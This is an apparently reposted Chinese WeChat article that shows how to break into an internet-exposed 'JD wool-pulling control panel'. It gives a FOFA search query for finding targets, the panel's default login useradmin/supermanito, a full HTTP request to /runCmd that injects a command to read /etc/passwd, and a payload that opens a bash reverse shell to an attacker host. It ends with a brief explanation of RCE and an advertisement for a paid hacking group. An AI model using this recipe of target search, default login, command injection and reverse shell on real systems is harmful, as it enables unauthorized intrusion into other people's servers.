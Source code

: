 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/H9igbpFNeHVFAVWoKhQu7g)

fofa 语法：  

title="京东薅羊毛控制面板"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2RpQ2BlGJrFWrm2ISdNTE4Qf1n6b60F6FibxDCJm0ia2WQzjic07hgXIQ5EZo3ASM6ibgeY8cQh3g5WQ/640?wx_fmt=png)

我们随便点一个进去，是个后台登陆页面  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2RpQ2BlGJrFWrm2ISdNTE4dPRCaIz5b007wnVpJupJCqLZTTZQq4tHm4WLB9IfvqnIeMlQVDQB8A/640?wx_fmt=png)

默认账号密码为

useradmin/supermanito

不料，成功进入。  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2RpQ2BlGJrFWrm2ISdNTE4Z6S3nzsgUhkufHuGYrIYkFryscgH72icSxJUJMGgCpPGNb8iaGTCp9nA/640?wx_fmt=png)

接着我们使用 POC  

```
POST /runCmd HTTP/1.1
Host: 192.168.1.1:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2RpQ2BlGJrFWrm2ISdNTE4ef2NZUAftGgrqcFJCURUrAmhRkOGqu5IdADfibRb8wuUYKrypLnQ8aA/640?wx_fmt=png)

反弹 shell  

```
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2RpQ2BlGJrFWrm2ISdNTE4uXGkSEicKHPqG4jzz7zRya9D3vllgIPLNXLLpRUgicuALLeLhnBMY6xQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2RpQ2BlGJrFWrm2ISdNTE4WCK2lTVE3xhCIaibib1WyNdkNMic3y4Sziaz7U4StXQv9kPc40Xh2kIoDg/640?wx_fmt=png)

RCE 英文全称：remote command/code execute

分为远程命令执行 ping 和远程代码执行 evel。

漏洞出现的原因：没有在输入口做输入处理。

我们常见的路由器、防火墙、入侵检测等设备的 web 管理界面上

一般会给用户提供一个 ping 操作的 web 界面，用户从 web 界面输入目标 IP，提交后，后台会对该 IP 地址进行一次 ping 测试，并返回测试结果。其实这就是一个接口，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统，这就是 RCE 漏洞。

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球送 fofa 永久会员，送 xray 高级版，送奈飞 Netflix 账号）

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2RpQ2BlGJrFWrm2ISdNTE4WibuW6DyWypzKicAmwziagawPiaVpOXVtxNRMgj1K8Rsee2HrrufXeG6KA/640?wx_fmt=png)